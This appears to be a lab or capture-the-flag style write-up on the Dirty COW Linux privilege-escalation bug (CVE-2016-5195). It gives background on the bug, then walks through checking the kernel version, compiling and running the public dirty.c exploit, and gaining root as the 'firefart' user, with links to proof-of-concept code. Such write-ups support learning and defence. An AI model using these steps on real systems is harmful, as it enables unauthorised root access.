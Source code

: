 

# once upon a time there is famous vulnerability on linux called dirty caw.

Dirty COW (Dirty copy-on-write) is a computer security vulnerability for the Linux kernel that affected all Linux-based operating systems, including Android devices, that used older versions of the Linux kernel created before 2018. It is a local privilege escalation bug that exploits a race condition in the implementation of the copy-on-write mechanism in the kernel's memory-management subsystem. Computers and devices that still use the older kernels remain vulnerable.

The vulnerability was discovered by Phil Oester.Because of the race condition, with the right timing, a local attacker can exploit the copy-on-write mechanism to turn a read-only mapping of a file into a writable mapping. Although it is a local privilege escalation, remote attackers can use it in conjunction with other exploits that allow remote execution of non-privileged code to achieve remote root access on a computer. The attack itself does not leave traces in the system log.

The vulnerability has the Common Vulnerabilities and Exposures designation CVE-2016-5195. Dirty Cow was one of the first security issues transparently fixed in Ubuntu by the Canonical Live Patch service.

The vulnerability has existed in the Linux kernel since version 2.6.22 released in September 2007, and there is information about it being actively exploited at least since October 2016. The vulnerability has been patched in Linux kernel versions 4.8.3, 4.7.9, 4.4.26 and newer.

The patch produced in 2016 did not fully address the issue and a revised patch was released on November 27, 2017, before public dissemination of the vulnerability.


source vulnerability : https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails

source forum : https://github.com/FireFart/dirtycow/blob/master/dirty.c
source github exploit : https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
source github code exploit : https://github.com/FireFart/dirtycow/blob/master/dirty.c

# can we try the same technique ? -

I checked the kernel version to see if any vulnerability exist

check kernel version : `uname –r`

and we have : `3.2.0-91-generic-pae`

source check kernel version : https://phoenixnap.com/kb/check-linux-kernel-version

so this vulnerability does exsit

#  --------------------

from above resource, we have code in dirty.c like https://github.com/FireFart/dirtycow/blob/master/dirty.c

with this, we just have to compile it with : `gcc -pthread dirty.c -o dirty -lcrypt`
Then run the newly create binary by either doing: `"./dirty" or "./dirty my-new-password"`

since in the c code, we use `firefart` as username
so now we can use this username and the password we just creacted : `su firefart` , we succsufully logged in
`whoami`
we have
`firefart`
use command id: `id`, we have:
`uid=0(firefart) gid=0(root) groups=0(root)`
we are root

restore the password:
`mv /tmp/passwd.bak /etc/passwd`
